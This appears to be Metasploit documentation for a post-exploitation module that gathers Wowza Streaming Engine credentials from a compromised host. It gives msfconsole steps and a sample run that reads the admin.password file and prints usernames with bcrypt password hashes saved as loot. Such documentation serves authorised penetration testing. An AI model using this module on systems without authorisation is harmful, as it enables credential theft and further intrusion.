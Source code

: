## Vulnerable Application

This module collects Wowza Streaming Engine user credentials.


## Installation Steps

Download and install [Wowza Streaming Engine](https://portal.wowza.com/account/downloads).


## Verification Steps

1. Start msfconsole
1. Get a session
1. Do: `use post/multi/gather/wowza_streaming_engine_creds`
1. Do: `set SESSION <session id>`
1. Do: `run`


## Options


## Scenarios

### Wowza Streaming Engine Manager Version 4.8.20+1 (build 20220919162035) on Ubuntu 22.04

```
msf > use post/multi/gather/wowza_streaming_engine_creds 
msf post(multi/gather/wowza_streaming_engine_creds) > set session 1
session => 1
msf post(multi/gather/wowza_streaming_engine_creds) > run

[*] Parsing file /usr/local/WowzaStreamingEngine/conf/admin.password
Wowza Streaming Engine Credentials
==================================

Username  Password                                                      Groups         Encoding
--------  --------                                                      ------         --------
guest     $2y$10$HbioW4tMn6aqtMjrXWxbp.sCCGkRL2bM2prNJG0elnLlcLnsV5XDK  basic          bcrypt
user      $2y$10$PiMwykGY8H9ZX45AwjgAluCXHwvswpCFrIsHmCKqLtSJLITXagjwu  admin|advUser  bcrypt

[+] Credentials stored in: /root/.msf4/loot/20230306035212_default_192.168.200.158_host.wowzastream_500725.txt
[*] Post module execution completed
```
